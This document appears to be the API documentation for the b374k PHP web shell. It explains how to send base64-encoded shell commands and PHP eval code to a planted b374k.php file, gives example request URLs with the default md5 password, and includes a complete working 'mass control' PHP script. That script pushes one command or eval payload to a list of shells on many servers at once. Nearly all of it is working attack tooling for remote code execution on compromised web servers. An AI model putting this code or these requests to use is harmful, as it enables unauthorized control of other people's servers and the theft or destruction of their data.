 # API #


## Introduction ##
From version 2.3 you can use the API to remotely control the shell.
Parameter
```
s_pass : your shell password in md5 format
cmd : to execute shell command (in base64 format)
eval : to evalute php code (in base64 format)
```

example 1 :
```
http://www.myserver.com/b374k.php?s_pass=0de664ecd2be02cdd54234a0d1229b43&cmd=dW5hbWUgLWE=
```
This example use password _b374k_ in md5 format which is _0de664ecd2be02cdd54234a0d1229b43_ and send command _uname -a_ which is _dW5hbWUgLWE=_ in base64 format

example 2 :
```
http://www.myserver.com/b374k.php?s_pass=0de664ecd2be02cdd54234a0d1229b43&eval=cGhwaW5mbygpOw==
```
This example use password _b374k_ in md5 format which is _0de664ecd2be02cdd54234a0d1229b43_ and send php code _phpinfo();_ which is _cGhwaW5mbygpOw==_ in base64 format

## Implementation ##
For mass control implementation using php, see example below

Create a file _list.txt_ contains url to b374k shell and its password
```
http://www.myserver1.com/b374k.php,0de664ecd2be02cdd54234a0d1229b
http://www.myserver2.com/b374k.php,0de664ecd2be02cdd54234a0d1229b
http://www.myserver3.com/b374k.php,0de664ecd2be02cdd54234a0d1229b
http://www.myserver4.com/b374k.php,0de664ecd2be02cdd54234a0d1229b
```

Create a file _mass.php_ and open it in browser
```
<?php
set_time_limit(0);

$list_file = "list.txt";
$list = is_file($list_file)? file("list.txt",FILE_SKIP_EMPTY_LINES) : false;
$self = $_SERVER['PHP_SELF'];
$result = "";

if($list!==false){
	if(isset($_REQUEST['submit'])){
		$val = empty($_REQUEST['val'])? "" : base64_encode(urldecode($_REQUEST['val']));
		$type = empty($_REQUEST['type'])? "" : trim($_REQUEST['type']);
		foreach($list as $l){
			$l = explode(",", $l);
			$url = trim($l[0]);
			$s_pass = trim($l[1]);
			$query = $url."?s_pass=".$s_pass;
			if(!empty($val)) $query .= "&".$type."=".$val;
			$content = @file_get_contents($query);
			if(!empty($content)) $content = htmlspecialchars($content);
			
			$result .= "<table>";
			$result .= "<tr><th>".$url."</th></tr>";
			$result .= "<tr><td><pre>".$content."</pre></td></tr>";
			$result .= "</table>";
		}
	}
}
else $result = "error : unable to open file ".$list_file;
?><!DOCTYPE html>
<head>
<title>b374k mass control</title>
<style type="text/css">
body{
	background:#000000;
	color:#888888;
	margin:0;
	padding:0;
	font-family:sans-serif;
	font-size:12px;
}
table{
	width:100%;
}
table th{
	background:#222;
}
table td{
	margin:0;padding:0;
}
textarea,input,select{
	background:#333;
	margin:0;
	padding:4px 0;
	border:0;
	color:#fff;
}
pre{
	padding:0px 8px;
}
</style>
</head>
<body>
<form action="<?php echo $self; ?>" method="post">
<table>
<tr><td colspan="2"><textarea name="val" style="width:100%;height:80px;" /></textarea></td></tr>
<tr>
	<td><input type="submit" name="submit" value="Go !" style="width:100%;height:30px;" /></td>
	<td style="width:100px;">
		<select name="type" style="width:90px;height:30px;">
			<option value="cmd">cmd</option>
			<option value="eval">eval</option>
		</select>
	</td>
</tr>
</table>
</form>
<div id="output"><?php echo $result; ?></div>
</div>
</html>
```